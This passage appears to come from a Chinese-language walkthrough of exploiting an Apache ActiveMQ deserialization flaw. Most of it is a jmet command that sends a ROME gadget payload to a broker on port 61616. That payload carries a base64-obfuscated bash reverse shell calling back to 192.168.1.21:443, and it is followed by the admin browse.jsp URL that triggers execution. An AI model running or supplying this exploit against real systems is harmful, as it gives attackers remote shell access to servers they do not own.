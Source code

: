 ![image-20250408190951764](./assets/image-20250408190951764.png)



```
java -jar jmet-0.1.0-all.jar -Q shell -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMjEvNDQzIDA+JjE=}|{base64,-d}|{bash,-i}" -Yp ROME 192.168.1.15 61616
```

![image-20250408191107560](./assets/image-20250408191107560.png)



访问

```
http://192.168.1.15:8161/admin/browse.jsp?JMSDestination=shell
```
